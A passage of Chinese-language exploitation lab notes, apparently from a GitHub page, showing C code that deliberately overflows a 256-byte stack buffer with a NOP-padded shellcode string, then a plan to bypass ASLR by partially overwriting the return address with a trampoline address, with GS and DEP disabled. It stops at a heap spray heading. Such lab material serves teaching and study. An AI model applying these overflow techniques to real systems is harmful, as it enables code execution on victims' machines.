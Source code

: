 	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x00\x30";

char* test()
{
	char tt[256];
	//__asm int 3
	memcpy(tt, shellcode, 262);
	return tt;
}

int _tmain(int argc, _TCHAR* argv[])
{
	char temp[200];
	test();
	return 0;
}
</code></pre>

#### 2.2 实验内容

<b>实验思路</b>
1. 不启用GS
2. 禁用DEP
3. test存在典型的溢出漏洞
4. 复制结束后，test函数返回tt字符数组的首地址
5. 在相对程序加载基址0x0000~0xFFFF的范围内，找到一条跳板指令，并用它地址的后两个字节覆盖返回地址的后两个字节
6. 采用这种“相对寻址”的方法来动态确定跳板指令的地址，以实现跳板指令的通用性

<b>实验环境</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows Vista SP0| |
|DEP状态|Optin|Vista默认状态|
|编辑器|Visual Studio 2008||
|优化选项|禁用优化选项||
|GS选项|GS关闭||
|DEP选项|/NXCOMPAT:NO||
|build版本|release||

溢出字符串起始地址：0x0016F64C
返回地址在栈中地址：0x0016F750

memcpy之后，复制的地址可能不知道，但是复制到哪儿，却是很清楚！


### 3. 利用Heap Spray技术定位内存地址

#### 3.1 实验代码
